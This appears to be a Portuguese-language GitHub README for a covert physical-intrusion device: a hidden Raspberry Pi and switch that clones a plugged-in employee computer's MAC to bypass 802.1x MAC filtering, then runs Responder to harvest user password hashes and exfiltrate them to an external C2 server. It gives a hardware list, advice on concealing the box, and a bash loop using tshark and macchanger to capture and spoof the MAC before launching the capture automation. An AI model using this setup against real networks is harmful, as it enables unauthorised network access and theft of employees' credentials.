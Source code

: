 # Projeto

O Objetivo desse projeto visa realizar de forma "automatizada" e "stealth" o bypass da camada de proteção 802.1x PNAC (Filtro de MAC) e iniciar quaisquer scripts/exploits/ferramentas ao ingressar dentro da rede alvo utilizando ferramentas como RaspberryPI3 e um Switch, ambos de fácil acesso para compra.

No cenário proposto, um atacante utilizará a ferramenta + scripts contruidos para realizar o ataque, ao obter acesso local aos cabos de rede referente a rede alvo, basta plugar um computador de um colaborador para clonar seu MAC, e depois o mesmo ingresará na rede, assim rodando as automações, em sequência é recomendável que a caixa seja escondida equanto conectada ao cabo de rede, para que permaneça na rede realizando os ataques.

Para o caso atual, a ferramenta a ser ativada sera o "Responder", o qual terá função de coletar Hashes de usuários na rede e exfiltra-los para um servidor externo (C2).

# Equipamentos

* Raspberry PI (recomendável PI3 1GB RAM)
* 1 Cabo microUSB/USB-C (Depende do RaspberryPI)
* Tela Touch RaspberryPI (Recomendável/Não Obrigatório)
* Switch de rede
* Conversor de energia do Switch para USB
* 2 Cabos de Rede RJ45 (Pequenos)
* 1 PowerBank (Pequeno)
* Teclado Bluethooth (Recomendável/Não Obrigatório)
* Conversor LAN - USB
* Fita Dupla-Face + Caixa (20cm x 15cm +-)

# Etapas:

## Setup Raspberry
- [ ] kali ISO
- [ ] kali LCD Screen
- [ ] Responder as a Service: https://github.com/eep0x10/runAs.service/tree/main
- [ ] Scripts:


start_resp.sh
```
# Reset MAC Address Random
#sudo ifconfig eth1 hw ether $(ethtool -P eth1 | awk '{print $3}') 1>&-

while true;do
echo "[+] Capturando MAC Address, aguarde 10 segundos..."

echo "" > /tmp/captured_mac.txt

sudo tshark -i eth1 -Y "_ws.col.protocol matches \"IGMPv3\"" -T fields -e eth.src -a duration:10 2>&- | sort -u > /tmp/captured_mac.txt
echo "64:1c:67:e6:d8:a0" > /tmp/captured_mac.txt
# Caminho do arquivo de onde ler o valor
arquivo="/tmp/captured_mac.txt"
valor=$(cat "$arquivo" | tr -d '[:space:]')
# Executa o comando macchanger com o valor lido do arquivo
sudo macchanger -m "$valor" eth1 2>&- # Substitua "eth1" pela interface de rede desejada

cd /usr/share/responder
sudo python3 automation.py
done
```


resp-onder.sh
cd /usr/share/responder
sudo python3 /usr/share/responder/automation.py

